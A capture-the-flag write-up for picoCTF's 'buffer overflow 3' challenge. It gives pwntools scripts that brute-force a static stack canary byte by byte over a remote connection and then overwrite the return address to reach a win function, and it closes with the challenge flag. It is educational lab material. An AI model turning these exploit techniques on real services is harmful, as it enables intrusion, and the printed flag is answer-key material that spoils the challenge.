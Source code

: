 # buffer overflow 3

### Description
> Do you think you can bypass the protection and get the flag?

### Solution
Do brute-force the canary.

```c
  41   │    char canary[CANARY_SIZE];
  42   │    char buf[BUFSIZE];
```

Efficient brute-force by overriding CANARY_SIZE from 1 to 4.

```python
while len(canary) < 4:
    for i in range(256):
        #io = process("./vuln")
        io = remote(host, port)
        io.sendlineafter("> ", "{}".format(BUFSIZE + len(canary) + 1))
        io.sendlineafter("Input> ", "A" * BUFSIZE + canary + "{}".format(chr(i)))
        if "*** Stack Smashing Detected" not in str(io.recvline()):
            canary += chr(i)
            log.info("canary: {}".format(canary))
            break
        io.close()
```

And, compose the payload using canary, which did brute-force.

```python
io = remote(host, port)
io.sendlineafter("> ", "-1")
pld = b"A"*64 + bytes(canary, 'utf-8') + b"B"*16 + p32(win)
io.sendlineafter("Input> ", pld)
print(io.recvline())

io.interactive()
```

The flag is `picoCTF{Stat1C_c4n4r13s_4R3_b4D_32625866}`

### Writer
[yu1hpa](https://twitter.com/yu1hpa)


